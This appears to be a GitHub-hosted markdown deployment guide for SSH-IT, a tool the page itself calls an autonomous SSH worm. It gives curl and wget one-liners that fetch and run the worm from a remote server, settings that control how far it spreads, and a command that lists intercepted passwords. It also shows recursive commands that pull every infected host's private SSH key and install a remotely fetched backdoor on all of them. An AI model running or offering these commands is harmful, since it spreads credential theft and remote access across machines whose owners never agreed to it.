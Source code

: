 ```yaml
---
layout: default
title: SSH-IT / Deployment
description: Autonomous SSH worm deployment guide.
---
```


<!-- Begin of ugly CSS navigation styling hack -->
<style>a[href$="/deploy/"] { font-weight: bold; }</style>
<!-- End of ugly CSS navigation styling hack -->

{% include nav-ssh-it-v1.html margin-top="0" margin-bottom="4rem" %}

Use either one of these commands to deploy:

```shell
bash -c "$(curl -fsSL https://thc.org/ssh-it/x)"
```

or:

```shell
bash -c "$(wget --no-verbose -O- https://thc.org/ssh-it/x)"
```

{:refdef: style="text-align: center;"}
![Deploy-Example](deploy-example2.png)
{: refdef}

To show all captured passwords use:

```shell
~/.config/prng/thc_cli -r list
```

{:refdef: style="text-align: center;"}
![Deploy-Example](list-example.png)
{: refdef}

To uninstall use:

```shell
~/.config/prng/thc_cli -r uninstall
```

## Environment variables:

Deployment can be controlled with these environment variables

| :--- | :--- |
| `THC_DEPTH=` | SSH-IT will spread to this depth and then stop. The default is `THC_DEPTH=2`. |
| `THC_BASEDIR=` | Installation directory. Default is `THC_BASEDIR="${HOME}/.config/prng"`. |
| `THC_VERBOSE=1` | For testing only: Display a warning to the user when *ssh* is being intercepted (in bold red). |
| `THC_DEBUG=1` | For testing only: Display debug information |
| `THC_DEBUG_LOG=thc.log` | For testing only: Output (most) debug information to `thc.log`. |

Example:

```shell
THC_DEPTH=6 THC_DEBUG=1 bash -c "$(curl -fsSL https://thc.org/ssh-it/x)"
```

## Tips & Tricks

SSH-IT is controlled with `thc_cli`.

```
usage: thc_cli [-hr] [command]
    -h          This help
    -r          Recursive (for all hosts)
Command:
    list       - Show passwords
    exec <cmd> - Execute <cmd> on target [e.g. thc_cli -r exec "id; date"]
    clean      - Clean logfiles and state information
    disable    - Disable interception
    uninstall  - Clean, disable and completely remove
Example: thc_cli -r list
```

### Remote Command Execution

Executing a command on _all_ hosts:

```shell
~/.config/prng/thc_cli -r exec 'id'
```

Retrieve the private SSH key (`id_rsa`) from _all_ hosts:

```shell
~/.config/prng/thc_cli -r exec 'cat .ssh/id_rsa 2>/dev/null'
```

Install a [backdoor](https://www.gsocket.io/deploy) on _all_ hosts:

```shell
~/.config/prng/thc_cli -r exec 'bash -c "$(curl -fsSL https://gsocket.io/y)"'
```

### Offline Installs or when HTTPS is not available

Deploy from a self-extracting shell-script [ssh-it-deploy.sh](http://nossl.segfault.net/ssh-it-deploy.sh):

```shell
# Without HTTPS
wget --no-hsts http://nossl.segfault.net/ssh-it-deploy.sh && \
bash ./ssh-it-deploy.sh
```

### Help the team

Help us fix bugs and send us `thc.log` if a boo-boo happens:

```shell
THC_DEBUG=1 THC_DEBUG_LOG=thc.log ssh user@yourhost "id"
```

Special thanks to Leonardo, Gerald, BadAdvert1zer and DoctorWho for ideas and testing.

## Contact

{% include contact-details.md %}
